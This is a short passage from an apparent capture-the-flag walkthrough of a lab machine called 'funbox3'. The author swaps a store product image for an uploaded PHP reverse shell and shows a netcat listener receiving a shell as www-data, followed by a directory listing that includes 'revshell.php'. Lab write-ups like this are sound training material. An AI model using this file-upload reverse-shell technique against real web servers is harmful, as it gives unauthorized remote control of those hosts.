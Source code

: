 now to run the shell

Another image is at a url of

  

[http://192.168.169.111/store/bootstrap/img/c_sharp_6.jpg](http://192.168.169.111/store/bootstrap/img/c_sharp_6.jpg)

  

so I'll replace it with my image

  

And I''m in

  

nc -nlvp 4444                                                                                                                       21:51:14                                                                                           

  

listening on [any] 4444 ...                                                                                                                                                                                                                 

connect to [192.168.45.201] from (UNKNOWN) [192.168.169.111] 47264                                                                                                                                                                          

bash: cannot set terminal process group (842): Inappropriate ioctl for device                                                                                                                                                               

bash: no job control in this shell                                                                                                                                                                                                          

www-data@funbox3:/var/www/html/store/bootstrap/img$ ls                                                                                                                                                                                      

ls

android_studio.jpg

beauty_js.jpg

c_14_quick.jpg

c_sharp_6.jpg

doing_good.jpg

img1.jpg

img2.jpg

img3.jpg

kotlin_250x250.png

logic_program.jpg

mobile_app.jpg

pro_asp4.jpg

pro_js.jpg

revshell.php

unnamed.png

web_app_dev.jpg
